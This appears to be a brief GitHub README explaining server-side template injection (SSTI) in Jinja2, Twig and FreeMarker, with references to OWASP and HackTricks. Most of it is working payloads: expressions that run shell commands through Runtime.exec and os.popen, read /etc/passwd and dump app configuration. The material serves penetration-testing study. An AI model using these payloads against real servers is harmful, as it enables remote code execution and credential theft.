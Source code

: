# Template Injection Vulnerability (SSTI)

Dependencies using Template Injection: Jinja2 (Python), Twig (PHP), FreeMarker (Java), etc.

The attack occurs when the data input is insecure and the user incorporates it into the template, leading to remote code execution on the server.

## How to execute

* Identify the model language, in this case: {{ }} for Jinja2

obs. Global objects (request, config) return functions that provide access to "child" files.
obs. FreeMaker example: ${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

## Scenario 1: Get Configuration
{{ config.items() }}

## Scenario 2: Read Global Environment
{{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

## Scenario 3: Get Password
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}


## References

https://pypi.org/project/Jinja2/

https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection

https://www.lanmaster53.com/2016/03/exploring-ssti-flask-jinja2/

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti